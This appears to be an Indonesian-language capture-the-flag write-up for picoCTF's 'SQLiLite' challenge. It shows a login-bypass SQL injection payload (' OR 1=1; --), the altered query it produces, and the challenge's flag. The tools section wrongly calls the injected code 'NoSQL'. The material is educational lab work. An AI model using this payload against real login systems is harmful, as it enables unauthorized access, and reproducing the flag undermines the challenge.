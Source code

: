 # Pico-CTF Write-up: SQLiLite

## Challenge Overview

**Judul:** SQLiLite\
**Kategori:** SQL Injection\
**Kesulitan:** Medium\
**Link Soal:** https://play.picoctf.org/practice/challenge/304?category=1&page=1&search=SQLi

Tantangan ini menghadirkan sebuah halaman login yang tampak rentan terhadap SQL Injection (SQLi). Tujuannya adalah mengeksploitasi kerentanan tersebut untuk melewati autentikasi dan memperoleh flag.

## Alat Yang Digunakan

- **Web Browser**: Untuk berinteraksi dengan antarmuka login aplikasi.
- **Burp Suite**: Digunakan untuk mencegat dan memodifikasi permintaan HTTP guna menyisipkan kode NoSQL.

## Pembahasan

Berikut adalah tampilan dari web yang akan di serang

<img width="1889" height="493" alt="Screenshot 2025-09-10 233416" src="https://github.com/user-attachments/assets/c3b05779-58c4-4663-ac24-1254522ae5e1" />

Pertama saya test dengan memasukkan
```
Username: test
Password: test
```
dan ini menghasilkan

<img width="1891" height="331" alt="Screenshot 2025-09-10 233425" src="https://github.com/user-attachments/assets/516a2c47-f489-4534-bda6-f6294c2649fc" />

Setelah melakukan submit, respons yang diterima mengungkapkan struktur query SQL berikut:
```
SELECT * FROM users WHERE name = 'test' AND password = 'test';
```
hal ini menandakan user input yang akan langsung dimasukkan ke query sql

kedua, kita bisa langsung membuat payload yang akan membypass username `' OR 1=1; --` Ini mengubah query menjadi:
```
SELECT * FROM users WHERE name = '' OR 1=1; --' AND password = 'test';
```

<img width="1861" height="481" alt="Screenshot 2025-09-10 233524" src="https://github.com/user-attachments/assets/b5493d88-0c71-45b4-8ff9-04fcb41c4257" />

dan kita berhasil masuk dan mendapatkan flagnya `picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}`

<img width="1892" height="246" alt="Screenshot 2025-09-10 233554" src="https://github.com/user-attachments/assets/ca7334ac-f390-4bd3-a7e4-a8446fd305f2" />
<img width="1481" height="484" alt="Screenshot 2025-09-10 233605" src="https://github.com/user-attachments/assets/46eeb568-9cd4-456a-9f1f-0a6f88e540f9" />
